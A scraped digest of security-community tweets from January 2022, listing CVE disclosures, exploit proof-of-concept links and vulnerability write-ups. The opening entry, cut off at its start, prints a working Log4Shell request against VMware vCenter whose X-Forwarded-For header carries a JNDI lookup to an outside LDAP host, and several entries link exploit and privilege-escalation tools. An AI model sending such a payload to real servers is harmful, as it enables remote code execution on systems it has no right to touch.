VMware vCenter Server Unauthenticated Log4Shell JNDI Injection RCE (CVE-2021-44228)

GET /websso/SAML2/SLO/vsphere.local?SAMLRequest= HTTP/1.1
X-Forwarded-For: ${jndi:ldap://10.10.10.10:1389/Exploit}

https://t.co/NDKkQK3csc
</blockquote>

* https://packetstormsecurity.com/files/165642/VMware-vCenter-Server-Unauthenticated-Log4Shell-JNDI-Injection-Remote-Code-Execution.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>127</code></td>
<td>Favorites: <code>330</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1484204189941174273 _at 2022-01-20 16:40:28_**
<blockquote>
Another #CVE (CVE-2021-42810) of mine just got published. #Thales SafeNet Agent for Remote Desktop Gateway for #Windows contains a Local Privilege Escalation #vulnerability.
#Mandiant #MYOW #LPE #EoP #UpdateNow #MandiantVulnerabilityDisclosure

https://t.co/9XSMV22PKp
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0002/MNDT-2022-0002.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1484028070692782083 _at 2022-01-20 05:00:38_**
<blockquote>
#Microsoft has detected hackers exploiting a new zero-day vulnerability (CVE-2021-35247) in #SolarWinds Serv-U software related to #Log4j attacks.

Read: https://t.co/Cc6iyLZ7RS

Serv-U version 15.3 has been released to patch the issue.

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/01/microsoft-hackers-exploiting-new.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1483798563092107266 _at 2022-01-19 13:48:39_**
<blockquote>
Reminder:
Finding privilege escalation vulnerabilities in Windows using Process Monitor is perhaps the easiest way to find a vulnerability, ever.
See CVE-2022-0166
https://t.co/cHg2W0khSS https://t.co/8amdUcprgj
</blockquote>

* https://vuls.cert.org/confluence/display/Wiki/2021/06/21/Finding+Privilege+Escalation+Vulnerabilities+in+Windows+using+Process+Monitor

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>219</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1483463004578590730 _at 2022-01-18 15:35:16_**
<blockquote>
Windows HTTP Stack Remote Code Execution Vulnerability CVE-2022-21907 https://t.co/5cKhVR6HqR
</blockquote>

* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1483302657800298497 _at 2022-01-18 04:58:06_**
<blockquote>
Public exploit POC for critical windows http RCE impacting multiple windows versions https://t.co/3skVdAAfAc
</blockquote>

* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1483269616785063936 _at 2022-01-18 02:46:49_**
<blockquote>
A few months ago, we discovered a post-auth SSRF in VMWare Workspace One Access - CVE-2021-22056 - which allowed you to steal an admin JWT via CSRF or request arbitrary URLs. Check out our blog post!  https://t.co/q0UdqFsgMJ
</blockquote>

* https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>125</code></td>
</tr></table>

---

# Ax_Sharma
**https://twitter.com/Ax_Sharma/status/1483165341467521024 _at 2022-01-17 19:52:27_**
<blockquote>
Great, wormable Windows Server RCE bug CVE-2022-21907 now got a PoC https://t.co/WvVcn2PryL https://t.co/24wY6b68NQ
</blockquote>

* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>14</code></td>
</tr></table>

---

# cyberkendra
**https://twitter.com/cyberkendra/status/1482986854056366081 _at 2022-01-17 08:03:13_**
<blockquote>
Windows HTTP Stack Remote Code Execution Vulnerability PoC CVE-2022-21907
https://t.co/q5ZEoEcV67
#infosec #Windows
</blockquote>

* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# LukasStefanko
**https://twitter.com/LukasStefanko/status/1481975013884452867 _at 2022-01-14 13:02:31_**
<blockquote>
RCE in Adobe Acrobat Reader for Android (CVE-2021-40724)

$10,000 bounty received from GPSRP

Excellent exploitation and write-up by @hulkvision 
Report: https://t.co/NIFQnlbRiZ

Quick summary how it was achieved👇 https://t.co/Ge1qKac98L
</blockquote>

* https://hulkvision.github.io/blog/post1/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>419</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1481155830179581952 _at 2022-01-12 06:47:23_**
<blockquote>
First #Microsoft Patch Tuesday update of 2022 fixes 96 new vulnerabilities, including a critical "wormable" Windows RCE #vulnerability (CVE-2022-21907) in the HTTP Protocol Stack.

Read details: https://t.co/GNeuIIB6m2

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2022/01/first-patch-tuesday-of-2022-brings-fix.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>125</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---

# mj0011sec
**https://twitter.com/mj0011sec/status/1480994719560003584 _at 2022-01-11 20:07:11_**
<blockquote>
First patch Tuesday of 2022! Adobe and Microsoft fixed 6 vulnerabilities reported by Kunlun lab. Two of them were demoed @TianfuCup. The CVE-2021-44706 was the RCE of PDF reader full chain and the CVE-2021-21881 was the Ntoskrnl bug for Chrome sandbox escape.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# BillDemirkapi
**https://twitter.com/BillDemirkapi/status/1479879438036881417 _at 2022-01-08 18:15:27_**
<blockquote>
New research! Unpacking CVE-2021-40444: A Deep Technical Analysis of an Office RCE Exploit https://t.co/q2QwkRfrvM
</blockquote>

* https://billdemirkapi.me/unpacking-cve-2021-40444-microsoft-office-rce

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>322</code></td>
<td>Favorites: <code>792</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1479323306184654851 _at 2022-01-07 05:25:35_**
<blockquote>
.NET executable to use when dealing with privilege escalation on Windows to gain local administrator access

https://t.co/MF9ySW8VX7
</blockquote>

* https://github.com/notdodo/LocalAdminSharp

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1479212901806264324 _at 2022-01-06 22:06:52_**
<blockquote>
Another #CVE of mine just got published. Local Privilege Escalation in Check Point Enterprise Endpoint Security Client (VPN) for Windows.
#Mandiant #MYOW #LPE #EoP #Mitre #Vulnerability #Windows #VPN #UpdateNow CVE-2021-30360

https://t.co/G3JT6DLK1E
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0001/MNDT-2022-0001.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>23</code></td>
</tr></table>

---

# 0xAsm0d3us
**https://twitter.com/0xAsm0d3us/status/1478746486535974914 _at 2022-01-05 15:13:30_**
<blockquote>
How to exploit a double-free vulnerability ('Use After Free for Dummies')

https://t.co/FlrVSYS4mV

#binaryexploitation #hacking #cybersecurity https://t.co/UAJYCGbvWd
</blockquote>

* https://github.com/stong/how-to-exploit-a-double-free

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>331</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1477722299923111942 _at 2022-01-02 19:23:45_**
<blockquote>
Log4j remote code execution vulnerability multi-threaded batch detection and exploitation tool
https://t.co/EDYYxtULif
</blockquote>

* https://github.com/inbug-team/Log4j_RCE_Tool

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

